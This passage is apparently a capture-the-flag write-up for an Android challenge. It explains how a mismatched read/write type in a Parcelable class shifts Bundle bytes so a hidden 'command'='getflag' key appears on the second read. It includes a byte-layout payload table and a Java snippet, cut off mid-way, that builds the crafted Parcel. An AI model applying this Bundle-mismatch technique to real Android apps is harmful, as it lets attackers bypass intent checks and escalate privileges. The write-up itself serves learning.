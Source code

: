 `writeString`will put '\0' to the end of string. 
PAD_SIZE will make the length of unit be the multipiles of 4.

## Exploit
`MainActivity$Message` is a class implementing from `Parceable`.
There are two type-difference:
1. 
```
this.txRate = in.readInt();
dest.writeByte((byte) this.txRate);
```
2. 
```
this.rttSpread = in.readLong();
dest.writeInt((int) this.rttSpread);
```

Through test I found that the first type-difference which in byte and int will not create influence, because of PAD_SIZE.
So the second type-difference will cover 4 bytes after `Message` object every times `readFromParcel` and `writeToParcel`.

The intent of this challenge is to hide a key-value pair `'command'='getflag'`, and expoes it when second reading.

The order of bundle is 'length of key, content of key, type of value, length of value, content of value'.

It means that the writing will cover `length of key` and make the first 4 bytes of origin `content of key` the new `length of key`.

So we can construct this payload:

|Message|len_key|content_key|type_value|len_value|content_value|
|--|--|--|--|--|--|
|pad|15 00 00 00|07 00 00 00 "command" 00 00 00 00 00 00 07 00 00 00 "getflag" 00 00| 00 00 00 00|03 00 00 00| "pad" |
|pad 15 00 00 00|07 00 00 00| "command" 00 00|00 00 00 00|07 00 00 00|"getflag" 00 00|

The format of string is UTF-16, two bytes every char.
type=0 means `VAL_STRING`.

Another need to do is that `Receiver2` need `bundle.getString("command")!=null`, so we need another key-value pair `'command'='xxx'`.


So one of the payloads is:
```java
        Parcel a = Parcel.obtain();
        Parcel b = Parcel.obtain();
        a.writeInt(3);//Count
        a.writeString("mismatch");
        a.writeInt(4);//Parcable
        a.writeString("com.de1ta.broadcasttest.MainActivity$Message");
        a.writeString("bssid");
        a.writeInt(1);
        a.writeInt(2);
        a.writeInt(3);
        a.writeInt(4);
        a.writeInt(5);
        a.writeInt(6);
        a.writeInt(7);
        a.writeLong(8);
        a.writeInt(9);
        a.writeInt(10);
        a.writeInt(-1);
        a.writeLong(11);
        a.writeLong(12);
```